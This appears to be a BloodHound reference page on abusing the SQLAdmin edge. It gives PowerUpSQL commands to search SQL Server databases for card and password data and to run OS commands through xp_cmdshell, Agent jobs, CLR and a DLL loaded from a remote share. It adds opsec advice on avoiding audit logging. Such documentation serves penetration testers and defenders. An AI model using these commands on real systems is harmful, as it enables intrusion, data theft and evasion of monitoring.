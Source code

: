 ```yaml
---
title: SQLAdmin
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 


The user is a SQL admin on the target computer

There is at least one MSSQL instance running on the computer where the user with the inbound SQLAdmin edge is the account configured to run the SQL Server instance. The typical configuration for MSSQL is to have the local Windows account or Active Directory domain account that is configured to run the SQL Server service (the primary database engine for SQL Server) have sysadmin privileges in the SQL Server application. As a result, the SQL Server service account can be used to log into the SQL Server instance remotely, read all of the databases (including those protected with transparent encryption), and run operating systems command through SQL Server (as the service account) using a variety of techniques.

For Windows systems that have been joined to an Active Directory domain, the SQL Server instances and the associated service account can be identified by executing a LDAP query for a list of “MSSQLSvc” Service Principal Names (SPN) as a domain user. In short, when the Database Engine service starts, it attempts to register the SPN, and the SPN is then used to help facilitate Kerberos authentication.

This clip demonstrates how to abuse this edge:

<iframe id="youtube-1659" frameborder="0" allowfullscreen="" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" title="Player for 2 11 BloodHound Head to Tail Andy Robbins Rohan Vazarkar" width="100%" height="420" src="https://www.youtube.com/embed/fqYoOoghqdE?autoplay=0&amp;controls=0&amp;disablekb=1&amp;playsinline=1&amp;cc_load_policy=0&amp;cc_lang_pref=auto&amp;widget_referrer=https%3A%2F%2Fsupport.bloodhoundenterprise.io%2Fhc%2Fen-us%2Farticles%2FSQLAdmin&amp;rel=0&amp;showinfo=0&amp;iv_load_policy=3&amp;modestbranding=1&amp;customControls=true&amp;noCookie=false&amp;enablejsapi=1&amp;origin=https%3A%2F%2Fsupport.bloodhoundenterprise.io&amp;widgetid=1" data-gtm-yt-inspected-6="true"></iframe>

Abuse Info
-----------

Scott Sutherland from NetSPI has authored PowerUpSQL, a PowerShell Toolkit for Attacking SQL Server. Major contributors include Antti Rantasaari, Eric Gruber, and Thomas Elling. Before executing any of the below commands, download PowerUpSQL and load it into your PowerShell instance. Get PowerUpSQL here: [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

**Finding Data**

Get a list of databases, sizes, and encryption status:
```
Get-SQLDatabaseThreaded –Verbose -Instance sqlserver\\instance –Threads 10 -NoDefaults
```
Search columns and data for keywords:
```
Get-SQLColumnSampleDataThreaded –Verbose -Instance sqlserver\\instance –Threads 10 –Keyword "card, password" –SampleSize 2 –ValidateCC -NoDefaults | ft -AutoSize
```
**Executing Commands**

Below are examples of PowerUpSQL functions that can be used to execute operating system commands on remote systems through SQL Server using different techniques. The level of access on the operating system will depend largely what privileges are provided to the service account. However, when domain accounts are configured to run SQL Server services, it is very common to see them configured with local administrator privileges.

xp_cmdshell Execute Example:
```
Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10 -Instance sqlserver\instance
```
Agent Job Execution Examples:
```
Invoke-SQLOSCmdAgentJob -Verbose -SubSystem CmdExec -Command "echo hello > c:\\windows\\temp\\test1.txt" -Instance sqlserver\instance -username myuser -password mypassword
```
```
Invoke-SQLOSCmdAgentJob -Verbose -SubSystem PowerShell -Command 'write-output "hello world" | out-file c:\\windows\\temp\\test2.txt' -Sleep 20 -Instance sqlserver\instance -username myuser -password mypassword
```
```
Invoke-SQLOSCmdAgentJob -Verbose -SubSystem VBScript -Command 'c:\\windows\\system32\\cmd.exe /c echo hello > c:\\windows\\temp\\test3.txt' -Instance sqlserver\instance -username myuser -password mypassword
```
```
Invoke-SQLOSCmdAgentJob -Verbose -SubSystem JScript -Command 'c:\\windows\\system32\\cmd.exe /c echo hello > c:\\windows\\temp\\test3.txt' -Instance sqlserver\instance -username myuser -password mypassword
```
```
Python Subsystem Execution:
```
Invoke-SQLOSPython -Verbose -Command "Whoami" -Instance sqlserver\instance
```
R subsystem Execution Example:
```
Invoke-SQLOSR -Verbose -Command "Whoami" -Instance sqlserver\instance
```
OLE Execution Example:
```
Invoke-SQLOSOle -Verbose -Command "Whoami" -Instance sqlserver\instance
```
CLR Execution Example:
```
Invoke-SQLOSCLR -Verbose -Command "Whoami" -Instance sqlserver\instance
```
Custom Extended Procedure Execution Example:

1.  Create a custom extended stored procedure:
```
Create-SQLFileXpDll -Verbose -OutFile c:\temp\test.dll -Command "echo test > c:\\temp\\test.txt" -ExportName xp_test
```
2.  Host the test.dll on a share readable by the SQL Server service account:
```
Get-SQLQuery -Verbose -Query "sp\_addextendedproc 'xp\_test', '\\\yourserver\\yourshare\\myxp.dll'" -Instance sqlserver\instance
```
3.  Run extended stored procedure:
```
Get-SQLQuery -Verbose -Query "xp_test" -Instance sqlserver\instance
```
4.  Remove extended stored procedure:
```
Get-SQLQuery -Verbose -Query "sp\_dropextendedproc 'xp\_test'" -Instance sqlserver\instance
```
Opsec Considerations
---------------------

Prior to executing operating system commands through SQL Server, review the audit configuration and choose a command execution method that is not being monitored.

View audits:
```
SELECT * FROM sys.dm\_server\_audit_status
```
View server specifications:
```
SELECT audit_id,
a.name as audit_name,
s.name as server\_specification\_name,
d.audit\_action\_name,
s.is\_state\_enabled,
d.is_group,
d.audit\_action\_id,
s.create_date,
s.modify_date
FROM sys.server_audits AS a
JOIN sys.server\_audit\_specifications AS s
ON a.audit_guid = s.audit_guid
JOIN sys.server\_audit\_specification_details AS d
ON s.server\_specification\_id = d.server\_specification\_id
```
View database specifications:
```
SELECT a.audit_id,
a.name as audit_name,
s.name as database\_specification\_name,
d.audit\_action\_name,
d.major_id,
OBJECT_NAME(d.major_id) as object,
s.is\_state\_enabled,
d.is_group, s.create_date,
s.modify_date,
d.audited_result
FROM sys.server_audits AS a
JOIN sys.database\_audit\_specifications AS s
ON a.audit_guid = s.audit_guid
JOIN sys.database\_audit\_specification_details AS d
ON s.database\_specification\_id = d.database\_specification\_id
```
If server audit specifications are configured on the SQL Server, event ID 15457 logs may be created in the Windows Application log when SQL Server level configurations are changed to facilitate OS command execution.

If database audit specifications are configured on the SQL Server, event ID 33205 logs may be created in the Windows Application log when Agent and database level configuration changes are made.

A summary of the what will show up in the logs, along with the TSQL queries for viewing and configuring audit configurations can be found at [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/Audit%20Command%20Execution%20Template.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/Audit%20Command%20Execution%20Template.sql)

References
----------

* [https://github.com/NetSPI/PowerUpSQL/wiki](https://github.com/NetSPI/PowerUpSQL/wiki)
* [https://www.slideshare.net/nullbind/powerupsql-2018-blackhat-usa-arsenal-presentation](https://www.slideshare.net/nullbind/powerupsql-2018-blackhat-usa-arsenal-presentation)
* [https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#sqlserver](https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#sqlserver)
* [https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/configure-windows-service-accounts-and-permissions?view=sql-server-2017](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/configure-windows-service-accounts-and-permissions?view=sql-server-2017)
* [https://blog.netspi.com/finding-sensitive-data-domain-sql-servers-using-powerupsql/](https://blog.netspi.com/finding-sensitive-data-domain-sql-servers-using-powerupsql/)
